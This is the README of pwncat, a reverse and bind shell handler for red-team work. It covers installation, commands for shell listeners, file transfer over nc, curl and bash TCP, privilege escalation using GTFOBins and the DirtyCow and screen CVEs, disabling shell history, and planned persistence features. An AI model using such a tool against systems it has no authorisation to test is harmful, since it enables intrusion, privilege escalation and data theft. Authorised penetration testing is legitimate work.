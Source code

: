 # pwncat

pwncat is a raw bind and reverse shell handler. It streamlines common red team 
operations and all staging code is from your own attacker machine, not the target.

After receiving a connection, **pwncat** will setup some
common configurations when working with remote shells.

- Unset the `HISTFILE` environment variable to disable command history
- Normalize shell prompt
- Locate useful binaries (using `which`)
- Attempt to spawn a pseudoterminal (pty) for a full interactive session

`pwncat` knows how to spawn pty's with a few different methods and will
cross-reference the methods with the executables previously enumerated. After
spawning a pty, it will setup the controlling terminal in raw mode, so you can
interact in a similar fashion to `ssh`. 

`pwncat` will also synchronize the remote pty settings (such as rows, columns,
`TERM` environment variable) with your local settings to ensure the shell
behaves correctly.

To showcase a little bit of the cool functionality, I have recorded a short
[asciinema cast](https://asciinema.org/a/YFF84YCJfp9tQHhTuGkA2PJ4T).

pwncat documentation is being built out on [Read the Docs]. Head there for
the latest usage and development documentation!

## Install

### Dependencies

The python3 development files are required for building python dependencies. All of the dependencies are managed through `pip`. 

To install **pwncat** into its own python virtual environment:

``` bash
git clone https://github.com/calebstewart/pwncat/ # get pwncat

cd pwncat
$ sudo apt-get install python3-devel # install dependencies
$ python3 -m venv .venv
$ . .venv/bin/activate
$ pip install -r requirements.txt
$ python setup.py install

## Usage

```bash
# start a reverse shell listener on port 9999
python -m pwncat -r -p 9999
```

```bash
# access a bind shell on a given host and port
python -m pwncat -b -H 127.0.0.1 -p 9999
```

## Features and Functionality

**pwncat** allows you to local command interpreter at any time by getting to a blank
line and pressing the sequence `~C` (that's ``Shift+` `` then `Shift+c`). This new
prompt provides some basic interaction between your local host and the remote
host.

When at this prompt, you can return to your shell at any time with `C-d` or the
"back" command. To get a list of available commands, you can use `help`. At the
time of writing the following commands are supported:

```
(local) pwncat$ help                                                  
back            Exit command mode 
download        Download a file from the remote host 
help            View help for local commands 
privesc         Attempt privilege escalation 
reset           Reset the remote terminal (calls sync, reset, and sets PS1) 
set             Set or view the currently assigned variables 
sync            Synchronize the remote PTY with the local terminal settings 
upload          Upload a file to the remote host
```

### Transfering Files

Within the local prompt, you have the capability to `upload` and 
`download` files to and from the target. **pwncat** will attempt to
determine a `lhost` IP address to refer to your attacker machine, but if you
need to change this, you can modify the variable like so:

```bash
# change local host IP address if you need to
(local) pwncat$ set lhost "8.8.8.8"
```

The logic to transfer files is defined in `pwncat/uploaders` and 
`pwncat/downloaders` respectively. **pwncat** will smartly determine a usable
method to transfer files, but you can choose a specific one with the 
`--method` option.

```bash
usage: upload [-h] [--method {nc,curl,shell,bashtcp,wget}] [--output OUTPUT] path

positional arguments:
  path                  path to the file to upload

optional arguments:
  -h, --help            show this help message and exit
  --method, -m {nc,curl,shell,bashtcp,wget}
                        set the download method (default: auto)
  --output OUTPUT, -o OUTPUT
                        path to the output file (default: basename of input)
```

```bash
usage: download [-h] [--method {nc,curl,shell,bashtcp,raw}] [--output OUTPUT] path

positional arguments:
  path                  path to the file to download

optional arguments:
  -h, --help            show this help message and exit
  --method, -m  {nc,curl,shell,bashtcp,raw}
                        set the download method (default: auto)
  --output OUTPUT, -o OUTPUT
                        path to the output file (default: basename of input)
```

The methods that **pwncat** can transfer files with are as follows:

```
Both:
	nc 				netcat socket with random port -- requires port to be accessible
	curl 			HTTP request with port 80 -- requires curl on the target
	shell 			send echo and base64 -- no requirements, but can be slow
	bashtcp 		reuse the current socket -- no requirements
Upload specific:
	wget 			HTTP request with port 80 -- requires wget on the target

Download specific:
	raw 			read file contents and save to attacker -- no requirements
```

### Privilege Escalation

**pwncat** can attempt to perform privilege escalation with known techniques.
It will look for binaries on the target system that have known GTFOBins 
capabilities, and perform different methods to try and reach new users and
ultimately root.

```bash
usage: privesc [-h] [--list] [--all]
               [--user {root,caleb,john,sean,etc}]
               [--max-depth MAX_DEPTH] [--read READ] [--write WRITE] [--data DATA] [--text]

optional arguments:
  -h, --help            show this help message and exit
  --list, -l            do not perform escalation. list potential escalation methods
  --all, -a             when listing methods, list for all users. when escalating, escalate to
                        root.
  --user {root,caleb,john,sean,etc}
                        the target user
  --max-depth MAX_DEPTH, -m MAX_DEPTH
                        Maximum depth for the privesc search (default: no maximum)
  --read READ, -r READ  remote filename to try and read
  --write WRITE, -w WRITE
                        attempt to write to a remote file as the specified user
  --data DATA, -d DATA  the data to write a file. ignored if not write mode
  --text, -t            whether to use safe readers/writers
```

**pwncat** will try and run all known privilege escalation techniques.
The current methods that are supported by `privesc` are:

```
sudo 				Run available sudo commands with GTFOBins techniques
setuid 				Run available setuid binaries with GTFOBins techniques
screen 				Abuse screen-4.5.0 (CVE-2017-5618)
dirtycow 			Run DirtyCow exploit (CVE-2016-5195)
```

### BusyBox

If the target system does not have many useful "live-off-the-land" binaries,
**pwncat** can upload an appropriate copy of `busybox` in order to access more
commands. 

## Planned Features

**pwncat** would like to be come a red team swiss army knife. Hopefully soon,
more features will be added.

* More privilege escalation methods (sudo -u#-1 CVE, LXD containers, etc.)
* More transfer file methods (FTP, SMB, DNS, ICMP, etc. )
* Persistence methods (bind shell, cronjobs, SSH access, PAM abuse, etc.)
* Aggression methods (spam randomness to terminals, flush firewall, etc.)
* Meme methods (terminal-parrot, cowsay, wall, etc.)
* Network methods (port forward, internet access through host, etc.)

[Read the Docs]: https://pwncat.readthedocs.io/en/latest